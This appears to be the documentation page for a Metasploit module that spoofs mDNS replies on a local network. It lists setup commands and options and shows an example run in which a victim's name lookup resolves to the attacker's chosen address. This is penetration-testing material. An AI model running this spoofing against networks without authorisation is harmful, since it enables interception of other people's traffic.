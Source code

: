 This module will listen for mDNS multicast requests on 5353/udp for A and AAAA record queries, and respond with a spoofed IP address (assuming the request matches our regex).

## Vulnerable Application

To use mdns_response, be on a network with devices/applications that can make mDNS multicast requests on 5353/udp for A and AAAA record queries.

## Verification Steps

  1. `use auxiliary/spoof/mdns/mdns_response`
  2. `set INTERFACE network_iface`
  3. `set SPOOFIP4 10.x.x.x`
  4. `run`

## Options
  
### The SPOOFIP4 option

IPv4 address with which to spoof A-record queries
	
```
set SPOOFIP4 [IPv4 address]
```

### The SPOOFIP6 option

IPv6 address with which to spoof AAAA-record queries
	
```
set SPOOFIP6 [IPv6 address]
```

### The REGEX option

Regex applied to the mDNS to determine if spoofed reply is sent
	
```
set REGEX [regex]
```

### The TTL option

Time To Live for the spoofed response (in seconds)
	
```
set TTL [number of seconds]
```

## Scenarios

```
msf > use auxiliary/spoof/mdns/mdns_response
msf auxiliary(mdns_response) > set SPOOFIP4 10.x.x.y
SPOOFIP4 => 10.x.x.y
msf auxiliary(mdns_response) > set INTERFACE en3
INTERFACE => en3
msf auxiliary(mdns_response) > run
[*] Auxiliary module execution completed
msf auxiliary(mdns_response) >
[*] mDNS spoofer started. Listening for mDNS requests with REGEX "(?-mix:.*)" ...
```

On Victim Machine
```
ping something.local
```
(IP address should resolve to spoofed address)


```
[+] 10.x.x.z        mDNS - something.local. matches regex, responding with 10.x.x.y
```
